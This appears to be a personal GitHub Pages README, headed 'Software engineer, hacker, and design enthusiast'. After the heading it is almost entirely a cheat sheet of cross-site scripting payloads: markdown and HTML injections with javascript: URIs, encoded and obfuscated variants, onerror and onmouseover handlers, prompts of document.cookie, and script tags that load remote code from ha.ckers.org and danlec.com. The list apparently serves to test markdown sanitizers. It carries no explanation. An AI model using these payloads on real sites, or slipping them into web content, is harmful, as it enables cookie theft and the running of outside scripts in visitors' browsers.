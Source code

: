 # maciejczyzewski.github.io
~~ Software engineer, hacker, and design enthusiast ~~

<img̊ style="display:block;width:100%;height:100%;" onmouseover="$.getScript('http://danlec.com/xss.js')" >

<http://\<img\ style=\"display:none\"\ src=0\ onerror=\"alert(\'Uh\ oh\')\"\>>

<http://\<h1\>test\</h1\>>

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](java&#x0A;script://%0d%0aprompt(1))
[test](java&#x0A;script://%0d%0aprompt(1);com)

';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')>

<IMG SRC=javascript:alert("XSS")>

<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC=# onmouseover="alert('xxs')">

<IMG SRC= onmouseover="alert('xxs')">

<IMG onmouseover="alert('xxs')">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>


<IMG SRC="jav	ascript:alert('XSS');">

<IMG SRC="jav&#x09;ascript:alert('XSS');">

<IMG SRC="jav&#x09;ascript:alert('XSS');">

<IMG SRC="jav&#x0A;ascript:alert('XSS');">

<IMG SRC="jav&#x0D;ascript:alert('XSS');">

<IMG SRC=" &#14;  javascript:alert('XSS');">

<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<<SCRIPT>alert("XSS");//<</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

<SCRIPT SRC=//ha.ckers.org/.j>

<IMG SRC="javascript:alert('XSS')"

<iframe src=http://ha.ckers.org/scriptlet.html <

\";alert('XSS');//

</script><script>alert('XSS');</script>

</TITLE><SCRIPT>alert("XSS");</SCRIPT>

<IMG DYNSRC="javascript:alert('XSS')">

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG LOWSRC="javascript:alert('XSS')">

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

¼script¾alert(¢XSS¢)¼/script¾

<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

<A HREF="http://1113982867/">XSS</A>

<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

<A HREF="http://0102.0146.0007.00000223/">XSS</A>

<A HREF="h
tt	p://6	6.000146.0x7.147/">XSS</A>


<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
